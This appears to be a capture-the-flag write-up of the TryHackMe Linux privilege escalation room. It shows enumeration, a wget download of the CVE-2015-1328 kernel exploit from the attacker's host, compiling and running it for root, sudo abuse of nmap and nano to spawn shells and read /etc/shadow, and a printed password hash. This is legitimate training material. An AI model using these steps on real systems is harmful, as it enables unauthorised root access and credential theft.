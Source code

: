# introduction

Privilege escalation is the act of exploiting a bug, a design flaw, or a configuration oversight in an operating system or software application to gain elevated access to resources that are normally protected from an application or user

# privileges escalation room of tryhackme

## task 0

### connect to thm network

```
openvpn username.ovpn
```

### connect using ssh to the machine

```
ssh karen@machine-address
then enter the password
```

## task 3 : Enumeration

### 1. What is the hostname of the target system : **wade3763**

```
uname -a
```

it prints system information

### 2. What is the Linux kernel version of the target system : **3.13.0-24-generic**

```
uname -a
```

it prints system information

### 3. What Linux is this : **Ubuntu 14.04 LTS**

```
cat /etc/issue
```

### 4. What version of the Python language is installed on the system :  2.7.6 

```
python --version
```


### 5.What vulnerability seem to affect the kernel of the target system (Enter a CVE number) : CVE-2015-1328

quick search on the internet with the kernel version of the machine

read about it [here](http://people.canonical.com/~ubuntu-security/cve/2015/CVE-2015-1328.html)

## task 5 :  Privilege Escalation: Kernel Exploits

### What is the content of the flag1.txt file?

1. get the c file of the exploit from [here](https://www.exploit-db.com/exploits/37292) in your attacker machine

2. host a server using python 

```
python3 -m http.server 80
```

3. on the target machine get the file ofs.c (place yourself in tmp folder)

4. compile the file using gcc

5. execute the file and we are done :), we are root

```
$ cd /var/tmp/  
$ wget http://10.8.16.105/ofs.c 
--2022-09-01 12:47:12--  http://10.8.16.105/ofs.c
Connecting to 10.8.16.105:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3860 (3.8K) [text/x-csrc]
Saving to: ‘ofs.c’

100%[================================>] 3,860       --.-K/s   in 0s      

2022-09-01 12:47:12 (429 MB/s) - ‘ofs.c’ saved [3860/3860]

$ gcc ofs.c -o ofs
$ ./ofs          
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1001(karen)

```

6. we get the flag1.txt now

```
# find / -name flag1.txt
/home/matt/flag1.txt
# cat /home/matt/flag1.txt
THM-28392872729920
```

## task 6: Sudo

### 1.How many programs can the user "karen" run on the target system with sudo rights : 3
```
$ sudo -l
Matching Defaults entries for karen on ip-10-10-193-45:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karen may run the following commands on ip-10-10-193-45:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano
```
### 2. What is the content of the flag2.txt file?

```
$ find / -name flag2.txt 2> /dev/null 
/home/ubuntu/flag2.txt
$ cat /home/ubuntu/flag2.txt
THM-402028394
```

### 3. How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?
```
sudo nmap --interactive
```
read more [here](https://vk9-sec.com/nmap-privilege-escalation/)

### 4. What is the hash of frank's password
```
frank:$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1
```

1. run **sudo nano** 
2. ctrl+R
3. /etc/shadow/
4. ctrl+X













